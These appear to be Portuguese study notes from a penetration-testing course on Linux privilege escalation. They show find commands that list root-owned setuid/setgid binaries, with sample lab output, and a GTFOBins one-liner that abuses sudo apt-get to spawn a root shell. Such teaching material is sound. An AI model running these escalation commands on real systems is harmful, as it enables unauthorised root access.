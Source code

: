 A permissão `Set User ID upon Execution`( `setuid`) pode permitir que um usuário execute um programa ou script com as permissões de outro usuário, normalmente com privilégios elevados. O bit `setuid` aparece como um `s`.

```bash
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```
|
```output
-rwsr-xr-x 1 root root 16728 Sep  1 19:06 /home/htb-student/shared_obj_hijack/payroll
-rwsr-xr-x 1 root root 16728 Sep  1 22:05 /home/mrb3n/payroll
-rwSr--r-- 1 root root 0 Aug 31 02:51 /home/cliff.moore/netracer
-rwsr-xr-x 1 root root 40152 Nov 30  2017 /bin/mount
-rwsr-xr-x 1 root root 40128 May 17  2017 /bin/su
-rwsr-xr-x 1 root root 27608 Nov 30  2017 /bin/umount
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 38984 Jun 14  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 14864 Jan 18  2016 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-sr-x 1 root root 85832 Nov 30  2017 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root 428240 Jan 18  2018 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 23376 Jan 18  2016 /usr/bin/pkexec
-rwsr-sr-x 1 root root 240 Feb  1  2016 /usr/bin/facter
-rwsr-xr-x 1 root root 39904 May 17  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 32944 May 17  2017 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 49584 May 17  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 40432 May 17  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 32944 May 17  2017 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 75304 May 17  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 54256 May 17  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 10624 May  9  2018 /usr/bin/vmware-user-suid-wrapper
-rwsr-xr-x 1 root root 1588768 Aug 31 00:50 /usr/bin/screen-4.5.0
-rwsr-xr-x 1 root root 94240 Jun  9 14:54 /sbin/mount.nfs
```

Podemos explorar programas com o bit SETUID definido para encontrar vulnerabilidades e escalar privilégios. O bit SETUID permite que programas sejam executados com os privilégios do proprietário do arquivo, o que pode ser aproveitado para executar comandos com esses privilégios. 

Da mesma forma, a permissão Set-Group-ID (setgid) permite executar binários como se fôssemos parte do grupo que os criou. Para encontrar esses arquivos, podemos usar o comando `find / -uid 0 -perm -6000 -type f 2>/dev/null`. Esses arquivos setgid podem ser usados da mesma forma que os arquivos setuid para escalar privilégios no sistema.

```bash
find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null
```
|
```output
-rwsr-sr-x 1 root root 85832 Nov 30  2017 /usr/lib/snapd/snap-confine
```

Este recurso tem mais informações sobre os bits setuide setgid, incluindo como configurá-los.

### GTFObins
O projeto GTFOBins é uma lista com curadoria de binários e scripts que podem ser usados por invasores para contornar restrições de segurança. Cada página detalha como os programas podem ser utilizados para sair de shells restritos, escalar privilégios, gerar conexões de shell reverso e transferir arquivos. Por exemplo, o comando ``apt-get`` pode ser usado para sair de ambientes restritos e gerar um shell, adicionando um comando Pre-Invoke :

```shell
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```
![[Pasted image 20240719192657.png]]

Vale a pena nos familiarizarmos com o máximo possível de GTFOBins para identificar rapidamente configurações incorretas quando chegamos a um sistema no qual precisamos aumentar nossos privilégios para avançar.



































































































































































































































































